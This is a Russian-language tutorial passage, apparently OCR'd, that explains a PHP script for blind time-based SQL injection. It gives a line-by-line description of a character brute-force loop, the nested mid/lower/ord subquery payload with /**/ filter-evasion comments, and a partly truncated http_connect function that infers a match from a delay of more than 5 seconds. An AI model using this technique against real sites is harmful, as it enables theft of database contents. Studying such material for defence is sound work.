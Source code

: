 Приведем описание построчно сверху вниз, пропуская операторные скобки:
- Сначала задается имя функции `brute` и аргументы: `column` — колонки таблицы, `table` — сама таблица, `limit` — сколько строк выводить.
- Инициализируется переменная `ret_str` в которой будет храниться результат.
- Инициализируется переменная `b_str` строкой с символами, которыми будем брутить. В нашем случае берем цифры, буквы и нижнее подчеркивание.
- Инициализируем массив символами из строки для брута.
- Запускаем цикл до 100, другими словами предполагаем, что sql-запрос вернет строку не менее 100 символов.
- Следующая строка декоративная, просто выводит какой именно номер символ брутится в данный момент выполнения скрипта.
- Запускаем цикл по массиву с нашими символами для брута.
- Каждый символ приводим к его коду по ASCII и инициализируем им переменную brute.
- Инициализируем переменную `q` нагрузкой, которой будем эксплуатировать уязвимость.
- Далее делаем запрос и если удачно, то…
- В переменную для результата дописываем символ, который подошел.
- Показываем, что символ подошел.
- Выходим из цикла брута по символам.
- Декоративный элемент, печатаем точку.
- Проверка, если мы дошли до последнего символа в нашем массиве символов для брута, то не имеет смысла проверять следующие буквы sql-запроса, выходим из верхнего цикла.
- Возвращаем результат брута.

Подробнее про строку запроса по вложенности наружу:
- `mid((select/**/$column/**/from/**/$table/**/limit/**/$lim,1),$i,1)`<br>возвращает один символ от запроса. Номер символа зависит от переменной $i;
- `lower(mid((select/**/$column/**/from/**/$table/**/limit/**/$lim,1),$i,1))`<br>приводит символ к нижнему регистру;
- `ord(lower(mid((select/**/$column/**/from/**/$table/**/limit/**/$lim,1),$i,1)))`<br>возвращает код по ASCII символа.

Также в скрипте присутствует функция http_connect. Ее листинг ниже:

```javascript
function http_connect($query) 
{ 
       $server = "http://example.com/index.php?id=1" 
        $headers = array( 
            'User-Agent' => 'Mozilla/5.0 (Windows; U; Windows N
rv:1.8.1.14) Gecko/20080404 Firefox/2.0.0.14', 
            'Referer' => $server 
        ); 
 
        $res_http = new HttpRequest($server.$query, HttpRequest
        $res_http->addHeaders($headers);  
        $t = mktime(); 
        try { 
                $response = $res_http->send()->getBody(); 
 
                $t = mktime() - $t; 
 
                if ($t > 5) 
                { 
                        return 1; 
                } 
                else 
                { 
                        return 0; 
                } 
 
        } catch (HttpException $exception) { 
 
                print "[-] Not connected"; 
                exit(0); 
        } 
```